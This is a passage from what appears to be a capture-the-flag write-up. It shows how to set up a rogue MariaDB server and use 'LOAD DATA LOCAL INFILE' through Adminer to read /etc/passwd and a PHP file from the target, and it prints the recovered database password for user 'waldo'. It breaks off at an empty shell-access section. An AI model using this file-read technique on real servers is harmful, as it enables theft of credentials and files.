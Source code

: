 Then we get an other Error, which we need to change the bind address from 127.0.0.1 to all adresses 0.0.0.0.
```
cd /etc/mysql

grep -R 127.0.0.1                                                     
```
Which gets us: `mariadb.conf.d/50-server.cnf:bind-address            = 127.0.0.1`.

then we need to change this. 
```
 grep -R 0.0.0.0  
```
`mariadb.conf.d/50-server.cnf:bind-address            = 0.0.0.0`
now if we reboot the system it should work.  We are able to access the system. 

Before we can exploit it. This is a arbitrary file read vulnerabilty. Meaning we can load a file from the system into the sql statement.  
For this we need to create a table. 

```sql
Create TABLE exploit (OUTPUT TEXT (4096))
```

```sql
LOAD DATA local INFILE '/etc/passwd' INTO TABLE exploit fields TERMINATED BY "\n";
```

![](Pasted image 20250129091704.png)
This is a restriciton by PHP. We need to find something accessible by PHP. So we can use the `utility-scripts/info.php` and see that the `open_basdir` is `var/www/html` and we know from the backup we dumped that there may be a `index.php` file with the credentials of the waldo user.  So we trie to load the `index.php`.

```sql
LOAD DATA local INFILE '/var/www/html/index.php' INTO TABLE exploit fields TERMINATED BY "\n";
```
Now if we seletect the table we see the loaded files with credentials in it. 

```
$servername = "localhost";
 edit	                        $username = "waldo";
 edit	                        $password = "&<h5b~yK3F#{PaPB&dA}{H>";
```


> [!Success] Credentials Waldo 
> User: `waldo` 
> Credential: `&<h5b~yK3F#{PaPB&dA}{H>`


---
## Post-Exploitation
### 4.1 Gaining Shell
- **Tools Used:** ssh, adminer
- **Commands:**: 

